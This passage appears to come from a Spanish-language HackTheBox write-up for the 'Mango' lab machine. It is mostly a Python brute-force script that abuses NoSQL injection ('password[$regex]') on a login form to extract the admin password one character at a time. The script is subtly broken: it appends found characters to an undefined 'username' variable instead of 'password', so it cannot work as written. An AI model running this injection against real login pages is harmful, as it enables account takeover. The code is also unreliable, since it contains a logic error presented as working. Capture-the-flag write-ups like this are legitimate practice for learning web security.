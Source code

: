 ```python

            if r.status_code == 302:
                username += character
                p2.status(password)
                break


if __name__ == '__main__':

    makeRequest()
```

Este pequeño script nos permite encontrar el usuario **admin** y el usuario **mango**.
Modificamos el script para encontrar la contraseñas de los usuarios.

```python
#!/usr/bin/python3

import pdb # Debugging
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters + string.digits + string.punctuation

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[admin]")
    password = ""

    while True:
        for character in characters:

            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': 'admin',
                'password[$regex]': f"^{re.escape(password + character)}",
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                username += character
                p2.status(password)
                break


if __name__ == '__main__':

    makeRequest()
```